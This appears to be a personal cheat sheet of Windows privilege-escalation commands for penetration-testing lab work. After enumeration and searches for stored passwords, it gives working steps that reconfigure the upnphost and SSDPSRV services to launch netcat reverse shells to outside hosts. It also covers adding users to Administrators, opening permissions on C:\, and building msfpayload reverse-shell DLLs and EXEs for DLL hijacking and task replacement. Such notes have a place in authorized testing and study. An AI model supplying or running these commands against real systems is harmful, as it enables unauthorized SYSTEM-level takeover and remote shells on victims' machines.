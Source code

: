 # Windows Priv Notes

1- INFORMATION GATHERING:

systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
systeminfo | findstr /B /C:"Domain"

hostname
echo %username%

net users
net user bob

ipconfig /all
route print
arp -A

netstat -ano
netsh firewall show state
netsh firewall show config

schtasks /query /fo LIST /v
tasklist /SVC
net start
DRIVERQUERY

wmic qfe get Caption,Description,HotFixID,InstalledOn
wmic qfe get Caption,Description,HotFixID,InstalledOn | findstr /C:"KB.." /C:"KB.."

c:\sysprep.inf
c:\sysprep\sysprep.xml
%WINDIR%\Panther\Unattend\Unattended.xml
%WINDIR%\Panther\Unattended.xml


Services\Services.xml: Element-Specific Attributes
ScheduledTasks\ScheduledTasks.xml: Task Inner Element, TaskV2 Inner Element, ImmediateTaskV2 Inner Element
Printers\Printers.xml: SharedPrinter Element
Drives\Drives.xml: Element-Specific Attributes
DataSources\DataSources.xml: Element-Specific Attributes


reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated

dir abc.txt /s /p
dir /s *pass* == *cred* == *vnc* == *.config*
findstr /si password *.xml *.ini *.txt

reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s

sc qc Spooler
https://technet.microsoft.com/en-us/sysinternals/bb842062.aspx
accesschk.exe -ucqv Spooler
accesschk.exe -uwcqv "Authenticated Users" *
accesschk.exe -ucqv SSDPSRV
accesschk.exe -ucqv upnphost

ONE:
sc qc upnphost
sc config upnphost binpath= "C:\Inetpub\Scripts\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"
sc config upnphost binpath= "C:\Inetpub\Scripts\nc.exe -nv 10.11.0.62 9988 -e C:\WINDOWS\System32\cmd.exe"
sc config upnphost obj= ".\LocalSystem" password= ""
sc qc upnphost
net start upnphost

if fail:
        sc qc upnphost
    sc config SSDPSRV start= auto
    net start SSDPSRV

SECOND:
sc qc SSDPSRV
sc config SSDPSRV binpath= "c:\inetpub\nc.exe -nv 10.11.0.90 9090 -e cmd.exe"
sc config SSDPSRV obj= ".\LocalSystem" password= ""
sc config SSDPSRV start= "demand"
sc qc SSDPSRV
net start SSDPSRV

nc -lvvp 9090
net localgroup administrators
net localgroup administrators IWAM_BOB /add
cd c:\
dir /b /s proof.txt
type C:\"Documents and Settings"\Administrator\Desktop\proof.txt

DLL INJECTION:
echo %path%
cacls "C:\Python27"
CACLS c:\ /E /T /C /G "Authenticated Users":F
sc qc IKEEXT
msfpayload windows/shell_reverse_tcp lhost='127.0.0.1' lport='9988' D > /root/Desktop/evil.dll
copy evil.dll C:\Python27\wlbsctrl.dll


TFTP & SCHEDULE TASK
accesschk.exe -dqv "E:\GrabLogs"
msfpayload windows/shell_reverse_tcp lhost='127.0.0.1' lport='9988' R | msfencode -t exe > /root/Desktop/evil-tftp.exe
copy evil-tftp.exe E:\GrabLogs\tftp.exe






*** 

Example:

Victim machine low priv:
```
sc qc upnphost
sc config upnphost binpath= "C:\Inetpub\Scripts\nc.exe -nv 10.11.0.62 9988 -e C:\WINDOWS\System32\cmd.exe"
sc config upnphost obj= ".\LocalSystem" password= ""
sc qc upnphost
net start upnphost
sc qc SSDPSRV
```
